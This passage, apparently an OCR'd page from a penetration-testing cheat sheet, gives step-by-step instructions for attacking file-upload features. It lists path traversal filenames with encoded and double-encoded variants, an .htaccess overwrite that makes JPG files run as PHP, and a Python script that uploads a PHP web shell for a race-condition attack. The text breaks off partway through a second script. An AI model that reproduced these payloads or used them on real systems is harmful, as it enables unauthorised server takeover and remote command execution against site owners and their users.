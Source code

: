   - **Path traversal in file uploads**
    1. **Basic path traversal in filename**:
       - Step 1: Try uploading a file with path traversal in the name:
         - `../../../evil.php`
       - Step 2: Intercept the request with Burp Suite
       - Step 3: Modify the filename parameter to include traversal sequences
       - Step 4: Forward the request and check server response
       - Step 5: Access potential locations where the file might have been stored
       - Example: Change `filename="shell.php"` to `filename="../shell.php"` to store in parent directory

    2. **Encoded path traversal**:
       - Step 1: URL-encode the traversal characters:
         - `..%2F..%2F..%2Fevil.php`
         - `%2e%2e%2f%2e%2e%2f%2e%2e%2fevil.php`
       - Step 2: Try double encoding if needed:
         - `%252e%252e%252f%252e%252e%252f%252e%252e%252fevil.php`
       - Step 3: Submit with encoded traversal sequences
       - Step 4: Check for successful upload and test access
       - Step 5: Try variations if initial attempt fails
       - Example: Use `%2e%2e%2f` instead of `../` if basic traversal is blocked

    3. **Overwriting sensitive files**:
       - Step 1: Identify valuable files to target (configuration files, .htaccess)
       - Step 2: Create malicious version of the target file
       - Step 3: Use path traversal to specify the target location
       - Step 4: Upload the file and check if overwrite was successful
       - Step 5: Verify the impact of the modified file
       - Example: Upload `.htaccess` file with `AddType application/x-httpd-php .jpg` to make JPG files execute as PHP

    4. **Targeting custom file upload locations**:
       - Step 1: Analyze the application to find upload directory structure
       - Step 2: Test path traversal to reach writeable directories
       - Step 3: Target directories that are served by the web server
       - Step 4: Upload files to multiple locations systematically
       - Step 5: Test each potential location for successful execution
       - Example: If files are stored in `/var/www/uploads/[user]/`, try traversing to `/var/www/html/`

  - **Exploiting file upload race conditions**
    1. **Basic race condition exploitation**:
       - Step 1: Identify potential race condition in upload process
       - Step 2: Create a script to send a file upload request:
       ```python
       import requests
       
       url = "https://vulnerable-site.com/upload"
       files = {'file': ('shell.php', '<?php system($_GET["cmd"]); ?>', 'image/jpeg')}
       data = {'submit': 'Upload'}
       
       r = requests.post(url, files=files, data=data)
       print(r.text)
       ```
       - Step 3: Create another script to immediately request the uploaded file:
       ```python
       import requests
       import threading
       import time
       